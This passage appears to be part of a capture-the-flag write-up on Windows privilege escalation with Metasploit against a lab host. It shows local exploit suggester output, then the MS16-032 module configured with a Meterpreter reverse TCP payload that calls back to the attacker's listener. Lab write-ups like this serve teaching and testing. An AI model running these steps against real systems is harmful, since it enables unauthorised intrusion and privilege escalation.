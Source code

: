 ```console
```

When you look at the options of this module, you will see the `SESSION` parameter. This is where you have to set the session number I mentioned earlier. For me, it was number 1 but it might be different in your case if you had other sessions open previously.

Now, let's try to run it.

```console
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 189 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 8.1/Windows Server 2012 R2 build detected!
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.8 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.8 - Valid modules for session 1:

<SNIP>
```

There are 5 potential exploits that we could use against our target system. When we try the first two, we will find that they fail because our current user is not in the Administrator's group. The module `exploit/windows/local/ms16_032_secondary_logon_handle_privesc` looks promising, though. Let's try that.

```console
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
session => 1
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > options

Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.
```
